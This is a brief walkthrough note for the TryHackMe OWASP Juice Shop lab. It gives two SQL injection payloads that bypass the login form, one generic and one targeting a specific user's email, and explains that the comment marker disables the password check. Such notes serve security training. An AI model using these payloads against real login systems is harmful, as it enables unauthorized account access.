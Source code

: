 
[Room](https://tryhackme.com/room/owaspjuiceshop)

## SQL Injection
In email line put that, to circumvent check:

```SQL
' OR 1=1--
```

For login to specif user, this also works:

```SQL
bender@juice-sh.op'--
```

as the `'--` part disables the password checking